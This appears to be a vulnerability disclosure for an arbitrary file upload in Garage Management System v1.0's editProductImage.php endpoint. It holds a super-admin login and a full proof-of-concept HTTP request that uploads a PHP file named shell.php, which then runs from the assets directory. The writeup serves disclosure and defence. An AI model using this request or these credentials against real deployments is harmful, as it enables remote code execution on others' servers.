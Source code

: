 # Garage Management System v1.0 by alex has arbitrary code execution (RCE)

BUG_Author: Yc liu

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/garage/php_action/editProductImage.php?id=1

Loophole location: arbitrary file upload exists in Garage Management System's editProductImag.php file (RCE).

Request package for file upload：

```sql
POST /garage/php_action/editProductImage.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/garage/editproduct.php?id=1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2213179266536
Content-Length: 432

-----------------------------2213179266536
Content-Disposition: form-data; name="old_image"

shell.php
-----------------------------2213179266536
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2213179266536
Content-Disposition: form-data; name="btn"


-----------------------------2213179266536--
```

The files will be uploaded to this directory \garage\assets\myimages

![image](https://user-images.githubusercontent.com/54017627/180588440-1198f559-6960-4b97-98e2-58289bc4c432.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/180588468-7ad64ffb-abe4-4e01-9861-178e67579c62.png)
